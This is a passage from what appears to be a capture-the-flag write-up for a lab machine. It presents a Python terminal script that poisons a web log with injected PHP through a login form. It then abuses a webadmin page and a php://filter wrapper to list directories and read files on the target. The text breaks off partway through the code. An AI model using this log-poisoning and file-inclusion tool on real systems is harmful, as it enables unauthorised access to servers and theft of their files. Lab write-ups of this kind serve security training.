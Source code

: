 I won't go through this line by line, but at a high level, on `__init__`
(line 14) it will set the urls and cookie and call the function to clean
the log. `clean_log` uses the `webadmin.php` `init` method to empty the
log (line 27), and then adds poison for dir walks and file gets (line
29). I've used some static strings to mark where the output will be
(lines 30-31), which enables my use of regex later to pull out the
results (lines 40, 47, 59). I also build a url where the file parameter
is a php filter (lines 18-20), so the result is always base64 encoded,
allowing me to get php files. I've got user commands to `dir`, `type`,
`save` (download), and `upload`.



      1 #!/usr/bin/env python3
      2 
      3 import hashlib
      4 import netifaces
      5 import re
      6 import requests
      7 from cmd import Cmd
      8 from base64 import b64decode, b64encode
      9 
     10 
     11 class Terminal(Cmd):
     12     prompt = "> "
     13 
     14     def __init__(self, proxy=None):
     15         super().__init__()
     16         self.my_ip = netifaces.ifaddresses('tun0')[netifaces.AF_INET][0]['addr']
     17         self.sess = hashlib.sha256(self.my_ip.encode()).hexdigest()
     18         self.webadmin_url =  f'http://admin.hackback.htb/2bb6916122f1da34dcd916421e531578/webadmin.php?'
     19         self.webadmin_url += f'action={{action}}&site=hackthebox&password=12345678&session={self.sess}&'
     20         self.webadmin_url += f'dir={{dir}}&file=php://filter/convert.base64-encode/resource={{file}}'
     21         self.post_url = 'http://www.hackthebox.htb'
     22         self.proxy = proxy or {}
     23         self.cookie = {'PHPSESSID': self.sess}
     24         self.clean_log()
     25 
     26     def clean_log(self):
     27         requests.get(self.webadmin_url.format(action='init', dir='', file=''),
     28                      cookies=self.cookie, proxies=self.proxy, allow_redirects=False)
     29         requests.post(self.post_url, cookies=self.cookie, proxies=self.proxy,
     30                      data={'username': "qqqqqq<?php echo print_r(scandir($_GET['dir'])); ?>zzzzzz",
     31                            'password': "xxxxxx<?php include($_GET['file']); ?>pppppp",
     32                            'submit': ""})
     33 
     34     def do_dir(self, args):
     35         '''Do a directory listening of the given path
     36         Spaces in file path allowed'''
     37         args = args or '.'
     38         resp = requests.get(self.webadmin_url.format(action='show', dir=args, file=''),
     39                             cookies=self.cookie, proxies=self.proxy, allow_redirects=False)
     40         print(re.search("qqqqqq(.*)zzzzzz", resp.text, re.DOTALL).group(1))
     41 
     42     def do_type(self, args):
     43         '''Print the contents of a file
     44         Spaces in file path allowed'''
     45         resp = requests.get(self.webadmin_url.format(action='show', dir='', file=args),
     46                             cookies=self.cookie, proxies=self.proxy, allow_redirects=False)
     47         print(b64decode(re.search("xxxxxx(.*)pppppp", resp.text, re.DOTALL).group(1)).decode())
     48 